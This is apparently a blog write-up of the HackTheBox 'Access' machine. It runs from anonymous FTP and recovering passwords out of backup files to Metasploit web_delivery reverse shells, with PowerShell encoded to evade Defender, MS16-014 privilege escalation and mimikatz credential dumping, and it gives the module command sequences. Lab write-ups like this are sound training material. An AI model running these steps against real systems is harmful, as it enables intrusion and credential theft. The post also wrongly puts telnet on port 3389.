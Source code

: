 ```yaml
---
layout: post
title: HackTheBox - Access
categories: htb
permalink: /htb-access
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/access/infocard.png)

As always, I am starting off with an Nmap scan to determine open ports. After the scan has completed I will be able to determine my attack vector.

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

So it looked like that RDP and telnet are open, FTP allows for anonymous login. When I tried to access the FTP service from the browser It seems that i cannot do it, but when I tried to login from the terminal it allowed me ! I was prompted for username so I just used Anonymous for user and blank password, since the header of Nmap output, showed that FTP allows for anonymous access ! There were 2 directories inside FTP service: Backups and Engineer. Backups folder contained a file called "backup.mdb" and folder Engineer contained a zip file "Account Access.zip". I ran strings command on backups.mdb and I found
several interesting things:

admin , administrator, engineer, backup_admin, access4u@security

The last one access4u@security looked more like a password and so I passed it to the zip file: Access Control.zip and it worked so i extracted the file inside. Now the file inside the compressed file had an extension ".pst" so I used a tool called readpst to convert the file and read it with any kind of editor. After I opened the file, I found some information about an account on the system.

![acc_security]({{ site.baseurl }}/assets/htb-images/access/acc_security.png)

I used the found credentials in the Microsoft Telnet Service (port 3389) and it prompted me with a shell. So now I was inside the system and I could run commands.

![telnetaccess]({{ site.baseurl }}/assets/htb-images/access/telnetaccess.png)

After enumerating the system, I didn't find anything, so I decide to upload a windows enumeration script to find something for me. I have immediately discovered that I wasn't allowed to use backspace and arrows to quickly navigate through commands. I have decided to get a meterpreter session, but after trying to get through payload execution on the system it didn't work, so I opted to get a web based reverse shell, using the module 'exploit/multi/script/web_delivery'. What this module will do, is to generate a powershell command, which will be base64 encrypted to evade windows defender and metasploit will also open a web server on my machine so that when I execute the command in the telnet session, the windows box will access my metasploit web server, grab the payload and execute it.

As for the enumeration script, I used Sherlock (made by RastaMouse). This script is going to check for missing patches & software as well as show possible ways of privilege escalation. When the script finished the enumeration, I saw that script has found a common way of privilege escalation in Windows, Secondary Logon Handle, CVE: MS16-032! Once I tested the exploit it did not work, so I would assume at this point that the system was patched against this exploit.

 In Metasploit
 $ use multi/script/web_delivery
 $ set payload windows/x64/meterpreter/reverse_https

 Had some error with this exploit saying its not compatible so running this command fixed it !

 $ set target 2 ----> Sets payload delivery via Powershell
 $ set LHOST  
 $ set LPORT <>
 $ exploit -j

Copy command from metasploit & run on target machine !

![Payload_Delivery]({{ site.baseurl }}/assets/htb-images/access/Payload_Delivery.png)

I now had 2 shells as user 'security', one telnet & one meterpreter session. As MS16-032 did not worked,I have checked to see the closest exploit to date to MS16-032 and it was the MS16-014. Metasploit has a post exploitation module which uses this exploit to escalate privileges.

 In Metasploit after I get shell !

 $ meterpreter> background
 $ search ms16-014
 $ use exploit/windows/local/ms16_014_wmi_recv_notif
 $ set session 1
 $ exploit

![MS16-014MSFpostModule]({{ site.baseurl }}/assets/htb-images/access/MS16-014MSFpostModule.png)

This privilege escalation exploit spawned me in shell session instead of in meterpreter as NT_AUTHORITY user, so I quickly changed it to a meterpreter session using a post module.

 Switch from Shell -> Meterpreter

 $ctrl + z
 $ use post/multi/manage/shell_to_meterpreter
 $ set LHOST  
 $ set LPORT <>
 $ set session 2
 $ exploit

![System-Meterpreter]({{ site.baseurl }}/assets/htb-images/access/System-Meterpreter.png)

At this point, I tried to read the flag, but with no luck! Interestingly enough, I wasn't able to do because I didn't have permission and I was NT_AUTHORITY so it was really weird. My attempt to this was to grab the password for the Administrator user using mimikatz (developed by gentlekiwi). I uploaded the tool, and ran it, and I grabbed the password for user Administrator. After this, I opened another telnet session and logged in as Administrator and now I was able to read the root flag!

![MimikatzGetPasswds]({{ site.baseurl }}/assets/htb-images/access/MimikatzGetPasswds.png)

![Gotroothash]({{ site.baseurl }}/assets/htb-images/access/Gotroothash.png)